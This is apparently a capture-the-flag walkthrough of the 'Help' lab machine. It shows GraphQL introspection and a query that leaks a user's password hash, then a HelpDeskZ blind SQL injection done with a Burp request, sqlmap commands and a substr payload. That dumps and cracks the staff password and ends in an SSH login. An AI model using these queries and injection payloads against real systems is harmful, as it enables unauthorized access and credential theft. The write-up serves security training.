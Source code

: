 # Help - Second way

There is another way of doing the box. If we check our Nmap scan again we see that there is Node.js on port 3000:

```markdown
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking Node.js Express framework (Port 3000)

If we browse to the web page on port 300 we get a Node.js API with one message saying:
> message: "Hi Shiv, To get access please find the credentials with given query"

This is a hint to look out for **GraphQL** on the server and we find the path **/graphql** on the page that says:
> GET query missing.

If we research a bit about the GraphQL package and how to exploit it we wil find different sources. One query I found is one that eventually gives us useful information:
```markdown
10.10.10.121:3000/graphql?query={__schema\%20{\%0atypes\%20{\%0aname\%0akind\%0adescription\%0afields\%20{\%0aname\%0a}\%0a}\%0a}\%0a}

URL-decoded:
{__schema {
  types {
    name
    kind
    description
    fields {
      name
      }
    }
  }
}
```

We see there is a _User Object_ with two values _username and password_:

![Interesting user objects](help_user-objects.png)

If we research a bit about the GraphQL package and how to exploit it we wil find different sources. One query I found is one that eventually gives us useful information:
```markdown
{ user {
  username, password
  }
}

URL-encoded:
10.10.10.121:3000/graphql?query={+user+{+username,+password+}+}
```

This gives us the values for username and password:
```json
{
  "data": {
    "user": {
      "username": "helpme@helpme.com",
      "password": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```

This hash is 32 characters long, so it is probably MD5 and we find it on hashes.org:
> godhelpmeplz

These are credentials for the **ServiceDeskZ** portal that is running on port 80.

## Checking HTTP (Port 80)

There are two vulnerabilites that both work for the version lower than 1.0.2 and we know that the version is exactly that.
- HelpDeskZ 1.0.2 - Arbitrary File Upload
- HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download

This time we will use the **Authenticated SQL Injection** because we are authorized with the credentials we found on Node.js.

### SQL Injection exploit

Before we can use this exploit we need to create a ticket with an attachment:

![Creating ticket](help_creating-ticket.png)

Sending the location of the attachment to Burpsuite:
```markdown
GET /support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=1&param[]=7 HTTP/1.1
Host: 10.10.10.121
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: lang=english; PHPSESSID=lq1cfc4t3upb5p4pqcpmftcnb1; usrhash=0Nwx5jIdx%2BP2QcbUIv9qck4Tk2feEu8Z0J7rPe0d70BtNMpqfrbvecJupGimitjg3JjP1UzkqYH6QdYSl1tVZNcjd4B7yFeh6KDrQQ%2FiYFsjV6wVnLIF%2FaNh6SC24eT5OqECJlQEv7G47Kd65yVLoZ06smnKha9AGF4yL2Ylo%2BF17KMZ44LDq7MJ4o4ZDbx1GAgeVnXUZaVQLevzMj3ugw%3D%3D
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

We will save this request to a file so we can send it to **SQLMap**:
```markdown
sqlmap -r help.req --batch
```

Then we dump the contents of the database:
```markdown
sqlmap -r help.req --dump
```

Here we will find the table named **staff** that is important.

We will write a Python script to automate the process of this SQL Injection, that can be found in this folder named **help-sqli.py**.
```markdown
/support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=1&param[]=7 and substr((select password from staff limit 0,1),0,1) = 'a'
```

Running that script will iterate through every character of the hash of the password of the Administrator. If we let run SQLMap long enough this hash will be found, too.
> d318f44739dced66793b1a603028133a76ae680e

This hash is 40 characters long and thus probably SHA1. On hashes.org we find this hash and the password is:
> Welcome1

Starting a SSH session with the user _help_ and this password works and we have a shell:
```markdown
ssh help@10.10.10.121
```
